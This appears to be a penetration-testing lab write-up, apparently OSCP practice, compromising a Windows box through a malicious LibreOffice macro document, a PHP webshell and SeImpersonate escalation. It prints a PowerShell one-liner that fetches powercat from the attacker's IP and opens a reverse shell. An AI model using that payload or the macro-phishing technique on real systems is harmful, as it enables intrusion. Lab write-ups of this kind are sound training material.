




**Start 13:51 21-02-2025**

---
```
Scope:
192.168.198.169
```
## Recon

### Nmap

```bash
sudo nmap -sT craft -sV -sC -vvvv -T5 -p- -T5 --min-rate=5000 -Pn

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Craft
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
```

Well that is unusual. Let's run a UDP scan as well for good measure.

```bash
sudo nmap -sU craft -p 161 -Pn -sC -sV

Host is up.

PORT    STATE         SERVICE VERSION
161/udp open|filtered snmp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.51 seconds
```

This is even more vague.


### 80/TCP - HTTP


I submitted a sample `test.txt` file:


Right, let's run `feroxbuster` first to find more juicy info first.


Seems like the intention here is for us to craft up an `.odt` file with a macro in it. In that case it would be a **phishing** scenario, where a simulated victim will click on the file, causing the macro to fire and give us a reverse shell.


## Macro crafting

I installed `LibreOffice` using the following commands

```bash
sudo apt -y update
sudo apt -y install libreoffice libreoffice-gtk4
```

I now had access to the whole suite of office tools:


Let's fire up `Writer` which is the same as `Microsoft Word`.

We can then find the **Macros** tab here:


We want to create a **Basic** Macro. Click on **New** and call it whatever.


We will now want to insert our reverse shell payload, since it's a **Windows** target we'll have to use powershell.


Save the Macro by clicking `Ctrl + s`.

Now we close the Macro window and need to initialize the Macro on our `.odt` file on opening.




:::danger
Don't forget to write even the smallest sample text inside the file, or you will get thrown an error on upload.
:::

### Inserting Payload

We will now go ahead and upload the `.odt` file to the website, then trigger it from the `/uploads` endpoint. Thus we need to ready our listener.


:::fail
Unfortunately the reverse shell didn't fire, let's modify it and try another payload.
:::

### Revisiting Macro

I will modify the macro like so:

```powershell
cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.207/powercat.ps1');powercat -c 192.168.45.207 -p 443 -e powershell
```

With this premise we will upload `powercat.ps1` to the webserver, which will then serve us a reverse shell.


Let's upload the file again.


## Foothold

After a short while the shell fires:


:::success
We have successfully *phished* our way into the target!
:::


Let's grab the `local.txt` flag then do some enumerating:


### local.txt


## Enumerating Target

I start by checking privileges, nothing notable.


I used `tree /F` on our user's home directory, and he has an absolute boatload of files.

I went ahead and transferred winpeas because I am lazy:






We found valid creds, perhaps we can log in via RDP later.


Scratch that, winrm is exposed instead, that is still a viable way to get a persistent shell.


## Hashcat

I decided to crack the hash so I could log in via `winrm` in case I had to reboot the target.


It seems the hash is uncrackable, yet we can still use it in a *pass the hash* scenario using `evil-winrm`.


## Lateral Movement

During the rest of the enumeration we find the following directory `C:\xampp\htdocs` which is the website docroot.


It seems like *apache* has full control over it, since they're HIGHLY LIKELY a service account, that means they must have the **SeImpersonatePrivilege** enabled which is standard for web service accounts.

This tells us that we need to pivot to this user in order to further escalate our privileges.

I thus went on to craft up a standard `php` webshell and uploaded it to the webroot, then accessed it from the website:




Hell yeah it worked!


As expected, the service account indeed has the correct privileges to get *SYSTEM*.

Let's set up another reverse shell.


## Reverse Shell

I transferred the necessary tooling for my next steps.


And then created a new reverse shell.


:::success
We have successfully gotten a reverse shell as *apache*.
:::

## Privilege Escalation

Now all that's left is to abuse the privileges.


### proof.txt


:::summary
Overall neat way of getting access, the phishing part was quite easy and I had no problems whatsoever.
Important to get the methodology down afterwards for the priv-esc:
1. Found *apache* service account? 
2. Check web root with `icacls` 
3. Upload webshell/reverse shell 
4. Move laterally.
:::

---

**Finished 15:41 22-02-2025**

[^Links]: [[OSCP Prep]]


